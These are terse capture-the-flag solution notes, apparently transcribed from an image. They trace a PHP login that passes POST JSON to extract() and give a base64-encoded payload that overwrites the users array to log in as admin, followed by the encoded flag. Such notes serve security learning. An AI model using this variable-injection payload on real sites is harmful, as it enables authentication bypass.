 # key #
1. trace code 
	1. <?php if($user == 'admin') printf("<code>%s</code>", htmlentities($flag)); ?>
	2. $user = $username;
    3. if($users[$username] && strcmp($users[$username], $password) == 0) {
	4. extract($data);
	5. $data = json_decode($_POST['data'], true);
2. {"username":"guest","password":"guest"}
3. eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxIiwidXNlcnMiOnsiYWRtaW4iOiIxIn19
4. RkxBR3tPb3BzLCBJIGZ1Y2tlZCB1cCB5b3VyIHVzZXIgZGF0YWJhc2V9
